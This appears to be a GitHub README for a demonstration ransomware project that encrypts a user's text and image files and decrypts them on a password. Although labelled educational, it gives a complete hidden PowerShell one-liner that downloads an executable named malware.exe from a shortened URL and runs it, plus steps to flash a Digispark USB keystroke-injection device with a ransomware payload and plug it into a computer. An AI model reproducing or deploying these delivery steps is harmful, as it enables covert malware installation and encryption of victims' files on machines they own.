 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**

**Version 1.0**

![bio](https://github.com/therealhalonen/PhishSticks/assets/112076418/8e7f742d-bdc4-41d0-9aaa-8a6493df29f7)

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in the directory it is ran in.

If combined with the PowerShell script below (or with the Digispark .ino file), the application gets downloaded and executed by default in path `{USER}\Documents\` 

Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files when user gives up the right password (lihapulla).

![270753154-8fb9e882-b990-48cd-add6-309dd09af3be](https://github.com/therealhalonen/PhishSticks/assets/112076418/bee3e9ec-499b-4a0e-af8b-fc5e2c04b4ea)

## How to use

Download and run the script or .exe file inside a safe folder with no important files (incase something goes wrong) to launch the program and enjoy

```
$ ./encrypt.py
```
OR

Bypass security warnings and download & execute the file instantly in Documents folder by typing the following code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/5e8yp8mf', \"$env:UserProfile\Documents\malware.exe\");Start-Process \"$env:UserProfile\Documents\malware.exe\" -WorkingDirectory \"$env:UserProfile\Documents\""
```

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To set up Digispark payload:
- [Set up Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-10-31_12-24](https://github.com/therealhalonen/PhishSticks/assets/112076418/490686db-b5c4-4c00-9f7f-bc3006bd742b)

Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI
